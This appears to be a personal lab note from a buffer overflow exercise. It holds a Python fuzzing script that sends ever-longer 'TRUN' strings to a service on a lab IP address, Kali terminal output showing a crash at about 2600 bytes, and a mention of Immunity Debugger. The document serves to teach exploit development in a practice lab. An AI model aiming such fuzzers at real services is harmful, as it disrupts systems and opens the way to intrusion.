 Python Code :
#!/usr/bin/python
import sys,socket 
from time import sleep 

buffer = 'A'*100

while True:
	try:
		s = socket.socket(socket.AF_INET , socket.SOCK_STREAM)
		s.connect(('192.168.205.135',9999))
		
		s.send(('TRUN /.:/' + buffer))
		s.close()
		sleep(1)
		buffer = buffer + 'A'*100
		
	except:
		print "Fuzzing crashed at %s bytes" % str(len(buffer))
		sys.exit()

Kali :
──(root㉿kali)-[/home/kali]
└─# ls
amass_dom_httprobe.txt  Desktop    Downloads  go   Music     pimpmykali  stats.spk  trun.spk
core  Documents  fuzz_1.py  home_pc_nmap.txt  Pictures  Public      Templates  Videos

┌──(root㉿kali)-[/home/kali]
└─# chmod +x fuzz_1.py 

┌──(root㉿kali)-[/home/kali]
└─# ./fuzz_1.py       
^CFuzzing crashed at 2600 bytes

As we can see the buffer is crashed somewhere around 2600 bytes give or take.
And we have to kill the program ourselves (i.e. Press Ctrl+C )

Windows : Immunity 

![[Pasted image 20230825150102.png]]